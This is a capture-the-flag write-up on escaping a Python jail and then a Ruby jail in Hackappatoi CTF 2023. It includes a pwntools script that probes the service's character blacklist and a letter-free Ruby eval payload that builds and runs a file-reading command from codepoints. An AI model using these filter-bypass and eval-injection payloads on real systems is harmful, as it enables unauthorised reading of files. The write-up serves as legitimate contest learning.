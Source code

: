 ```yaml
---
layout: writeup
category: Hackappatoi-CTF-2023
chall_description:
points: 310
solves: N/A
tags: misc py-jail ruby-jail
date: 2023-12-10
comments: false
---
```


Italy is maybe the most touristic country around the world, amazing food, spectacular monuments, and faboulus environments  

But in the last period Italy don't wanna let anyone escape...  

`nc 92.246.89.201 8888`  

---

Connect to the service. Here's what it shows:  

```py



                              ΓûêΓûê              ΓûêΓûê
                            ΓûêΓûê              ΓûêΓûê
                          ΓûêΓûê        ΓûêΓûê    ΓûêΓûê
                          ΓûêΓûê      ΓûêΓûê      ΓûêΓûê
                            ΓûêΓûê    ΓûêΓûê        ΓûêΓûê
            ΓûæΓûæΓûæΓûæ              ΓûÆΓûÆ  ΓûêΓûê          ΓûÆΓûÆ  ΓûæΓûæ
                              ΓûêΓûê    ΓûêΓûê        ΓûêΓûê
                            ΓûêΓûê        ΓûêΓûê    ΓûêΓûê
                                      ΓûêΓûê  ΓûêΓûê
                                    ΓûêΓûê
                                                  ΓûæΓûæ
                  ΓûêΓûêΓûêΓûêΓûêΓûê        ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê
                ΓûêΓûê      ΓûêΓûê    ΓûêΓûê            ΓûêΓûê
              ΓûêΓûê    ΓûêΓûêΓûêΓûê  ΓûêΓûêΓûêΓûê    ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê    ΓûêΓûê              ΓûêΓûêΓûêΓûê
            ΓûêΓûê    ΓûêΓûê    ΓûêΓûêΓûêΓûê    ΓûêΓûê        ΓûêΓûê    ΓûêΓûêΓûêΓûêΓûêΓûê      ΓûêΓûê    ΓûêΓûê
            ΓûêΓûê  ΓûêΓûê  ΓûêΓûêΓûêΓûêΓûêΓûê    ΓûêΓûê    ΓûêΓûêΓûêΓûê    ΓûêΓûê    ΓûêΓûê  ΓûêΓûê  ΓûêΓûê        ΓûêΓûê
          ΓûêΓûê  ΓûôΓûô  ΓûêΓûê  ΓûêΓûê    ΓûêΓûê    ΓûêΓûê    ΓûêΓûê    ΓûêΓûê    ΓûôΓûô  ΓûôΓûô          ΓûêΓûê
          ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê    ΓûêΓûê
            ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê      ΓûêΓûêΓûêΓûê    ΓûêΓûê
            ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê      ΓûêΓûêΓûêΓûê  ΓûêΓûê
              ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûôΓûôΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê      ΓûêΓûêΓûêΓûê    ΓûêΓûê
                ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê    ΓûêΓûêΓûêΓûêΓûêΓûê        ΓûêΓûê
                  ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê  ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê
                      ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûôΓûôΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûôΓûôΓûôΓûô





≡ƒì┤≡ƒì┤≡ƒì┤
```

The challenge clearly implies this is some sort of code jail. These are typically pyjails -- let's test it out.  

Sending `print` returns `<built-in function print>`, which pretty much confirms this is a pyjail. I immediately decided to try a naive method to get the flag.  

```py
print(open('flag.txt', 'r').read())
```

Output:  

```
read key

None
```

Hey... that worked? No keywords or anything were blacklisted? Well, let's check out `key` anyways.  

```py
print(open('key', 'r').read())
```

```
guera

Yep, not the flag..., use 'guera' as the password for the real challenge at port 8889

None
```

Ah. So there's a part 2 to this challenge. Let's check it out!  

Here's what we're presented with after sending the key, `guera`:  

```
Oh Oh you escaped from a pasta jail..., can you escape from a bank and steal a precious ruby?...


Welcome to:
HACKAPPATOI's Jewelry (We got funds from zio Berlusca)
Here you will find a magnific 1337 Jewel

        _______
      .'_/_|_\_'.
      \`\  |  /`/
       `\\ | //'
         `\|/`
           `

But you need to obtain it and it won't be so easy...
You have a command to get it....
Good Luck!
Enter command:
```

Another pyjail? Let's try sending `print`:  

`Oopsie.. your input is bad... We blocked it.`  

Not sure if it's Python yet, but definitely some blacklisting going on. Let's try some random letters. Eventually, with the input `a`, I got this:  

```
(eval):1:in `<main>': undefined local variable or method `a' for main:Object (NameError)
        from jewelry.rb:40:in `eval'
        from jewelry.rb:40:in `<main>'
```

`.rb`...? Isn't that a Ruby file? So this must be a Ruby jail!  

With further testing, I quickly realized a lot of characters were blacklisted. Hence, I wrote a quick script to test which ones were blacklisted:  

```py
# print(open('flag.txt', 'r').read())
# print(open('key', 'r').read())
# pass is 'guera'

from pwn import *
import string

posschars = string.ascii_letters + string.digits + string.punctuation
validchars = []
for i in posschars:
    conn = remote('92.246.89.201', 8889)
    conn.recv()
    conn.sendline(b'guera')
    conn.recv()
    conn.recv()
    conn.sendline(i.encode())
    res = conn.recv().decode()
    conn.close()
    if 'Oops' not in res:
        validchars.append(i)
        print(res)

print(validchars)
```

Testing revealed that these characters...  

```py
['a', 'e', 'l', 'v', 'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z','0', '1', '2', '3', '4', '5', '6', '7', '8', '9', '!', '"', '#', '$', '%', '&', "'", '(', ')', '*', '+', ',', '-', ':', ';', '<', '=', '>', '?', '@','[', '\\', ']', '^', '`', '{', '|', '}', '~']
```

...were the only allowed characters. That's odd... only `aelv` are allowed of the lowercase letters, and, importantly, these spell out `eval`. Maybe that'll be important to the challenge?  

At this point, since I had never even used Ruby before, much less broken a Ruby jail, I started doing a lot of research and playing around with the service. I tried octal numbers, global variables, predefined constants, etc etc. Overall, I ended up being stuck for over an hour on this section of the problem. Eventually, my search query of `ruby jail without letters ctf` returned results. The reason I wanted to find some sort of hint to breaking a ruby jail without letters was because a lot of lowercase letters were restricted, so if I could find a way to break it without letters, I could easily break the jail. (in hindsight, I should have searched this up much earlier!)  

Scrolling down a bit, I found [this writeup](https://ctftime.org/writeup/16824) on CTFtime. Take a look at this section:  

>[This article](https://threeifbywhiskey.github.io/2014/03/05/non-alphanumeric-ruby-for-fun-and-not-much-else/) describes how you can write ruby code without letters, and since we are able to use the quote sign ', we can create strings with the shovel operator trick they describe.  

I immediately took a look through the article and found this section:  


>Logically enough, it can “shovel” strings into each other. This doesn’t quite help us, of course, as we’re not allowed to create explicit character strings. We can, however, shovel Unicode codepoints into strings to achieve the same effect:  
>
>```rb
>'' << 97 << 98 << 99
># "abc"
>```

So we don't need letters at all to construct our inputs! Perfect!  

Now all that's left to do is construct our payload. With the help of [this](https://onlinetools.com/ascii/convert-ascii-to-decimal) decimal to ASCII converter and [this](http://www.unit-conversion.info/texttools/replace-text/) online replace string helper, I was able to construct our payload pretty easily. At first, trying to open `flag.txt` didn't work, but then, trying `flag` did!  

Here is the ASCII:  

```rb
puts File.open("flag").read
```

And here is the payload to send to the service:  

```rb
eval(''<<112<<117<<116<<115<<32<<70<<105<<108<<101<<46<<111<<112<<101<<110<<40<<34<<102<<108<<97<<103<<34<<41<<46<<114<<101<<97<<100)
```  

And sending it produces the flag!  

    HCTF{1s_d1z_r34l1ty_0r_F1c710n?}  

Thoughts: As a complete newbie to both pyjails and ruby, I was pretty proud of this solve! Although it did take me quite a long time to solve, I thought I managed to figure out everything by the end quite nicely :)  